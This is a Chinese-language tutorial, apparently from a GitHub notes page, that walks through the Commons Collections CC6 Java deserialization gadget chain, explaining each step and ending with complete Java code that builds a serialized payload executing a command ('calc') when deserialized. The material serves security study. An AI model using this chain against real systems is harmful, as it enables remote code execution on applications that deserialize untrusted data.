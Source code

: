 ### CommonsCollections CC6

CC1 链在 java 8u71 之后对 CC1 链中的 membervalue 的获取方法进行了修改，同时删掉了 checkvalue 方法，导致 CC1 链不可以使用了，所以 CC1 链同时受到 jdk 版本和外部库的约束，有没有一个链子是不受 jdk 版本的约束呢，那就是 CC6 。

#### 链条分析

原始的 CC1 链子如下，其实 CC6 的链子只是在前两步进行了修改。

**AnnotationinvcationHandler.readObject >> Proxy(AnnotationinvcationHandler) >> LazyMap.get >> ChainedTransformer.transform >> InvokerTransformer.transform**

CC6 的链子

**HashMap.readObject >> TiedMapEntry.hashcode >> LazyMap.get >> ChainedTransformer.transform >> InvokerTransformer.transform**

我们先看下 TiedMapEntry 的 hashcode 方法。

![hashcode](img_cc6/TiedMapEntry_hashCode.png)

其中执行了 getvalue 方法，我们跟进一下这个方法。

![getvalue](img_cc6/TiedMapEntry_getValue.png)

可以看到，它进行了 map.get 的操作，如果我们传一个 LazyMap 给它，就会调用 LazyMap 的同名 .get 方法。

我们继续看下 hashmap.readobject 中是怎么调用的。

![readobjec](img_cc6/Hashmap_readobject.png)

调用了对 key 进行了 hash 操作，那么 hash 干了什么呢？

![hash](img_cc6/hash.png)

运行了 key.hashcode 操作，如果我们传一个 TiedMapEntry 给他，他就会执行 TiedMapEntry.hashcode 那么这条链就成立了。

这里面临第一个问题，因为 map.put 方法也会调用 hashcode 方法，所以我们的进行反序列化的时候，就会把这条链走完了，所以我们需要 put 的时候先放一个没用的值，之后再反射改回来，这里你可以选择多个地方进行修改，我选择改掉，LazyMap 的 factory ，就是放 ChainedTranformer 的位置。

这里还有第二个问题，因为 TiedMapEntry 它会校验我们给他的 key 存不存在 LazyMap 中，如果不存在，他就会放进去，这就导致我们反序列化的时候不会运行 factory.transform ，可以手动调试一下看看。

![LazyMap_put](img_cc6/LazyMap_put.png)

可以看到我们序列化的时候 TiedMapEntry 把我们给他的 key 放进去了，导致反序列化的时候，map.containsKey 为 true， 不能正确运行到 .tranform 方法，解决方法也很简单，put之后，我们手动给他删了就行。

#### 完整代码

```java
package org.example;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.io.*;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;

public class CC6 {
        public static void main(String[] args) throws Exception {

            Transformer[] transformers = new Transformer[]{
                    new ConstantTransformer(Runtime.class),
                    new InvokerTransformer("getMethod", new Class[]{String.class,Class[].class}, new Object[]{"getRuntime", null}),
                    new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                    new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
            };

            ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
            
            HashMap<Object, Object> map = new HashMap<>();
            //先放一个没用的 factory 进去
            Map lazymap = LazyMap.decorate(map, new ConstantTransformer(1));
            //我们用的是 map，key 就随便写了
            TiedMapEntry tiedMapEntry= new TiedMapEntry(lazymap, "aaa");
            //我们 new 一个 hashmap ，把 tiedMapEntry 放进去
            HashMap<Object, Object> map2 = new HashMap<>();
            //对 key 做 hashcode ，所以 value 随便写
            map2.put(tiedMapEntry, "bbb");
            //删掉 TiedMapEntry 放进来的 key = 'aaa'
            lazymap.remove("aaa");
            //通过反射把 factory 改回我们的 ChainedTransformer
            Class c = LazyMap.class;
            Field declaredField = c.getDeclaredField("factory");
            declaredField.setAccessible(true);
            declaredField.set(lazymap, chainedTransformer);

            serialize(map2);
            unserialize("ser");



        }

        public static void serialize(Object obj) throws IOException {
            ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser"));
            oos.writeObject(obj);
        }

        public static Object unserialize(String Filename) throws IOException, ClassNotFoundException {
            ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
            Object obj = ois.readObject();
            return obj;
        }
    }
```